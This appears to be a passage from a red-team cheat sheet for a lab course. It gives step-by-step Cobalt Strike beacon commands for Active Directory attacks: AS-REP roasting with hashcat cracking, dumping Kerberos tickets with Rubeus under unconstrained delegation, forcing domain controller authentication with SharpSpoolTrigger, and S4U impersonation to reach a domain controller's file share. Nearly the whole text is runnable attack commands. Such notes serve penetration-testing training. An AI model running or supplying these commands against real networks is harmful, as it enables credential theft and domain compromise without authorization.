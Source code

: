 ### ASREPRoast
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

ps> hashcat -a 0 -m 18200 svc_oracle wordlist
```
### Unconstrained Delegation (Caches TGT of any user accessing its service)
```powershell
1. Identify the computer objects having Unconstrained Delegation enabled
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

2. Dumping the cached TGT ticket (requires system access on affected system)
beacon> getuid
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

3. Execute PrintSpool attack to force DC to authenticate with WEB
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

4. Use Machine TGT (DC) fetched to gain RCE on itself using S4U abuse (/self flag)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

5. Inject the ticket and access the service
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> steal_token 2664
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```
### Constrained Delegation (allows to request TGS for any user using its TGT)
```powershell
1. Identify the computer objects having Constrained Delegation is enabled
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

2. Dump the TGT of User/Computer Account having constrained Delegation enabled (use asktgt if NTLM hash)
beacon> getuid
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

3. Use S4U technique to request TGS for delegated service using machines TGT (Use S4U2Proxy tkt)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap

4. OR, Access other alternate Service not stated in Delegation attribute (ldap)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap

5. Inject the S4U2Proxy tkt from previous step
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
```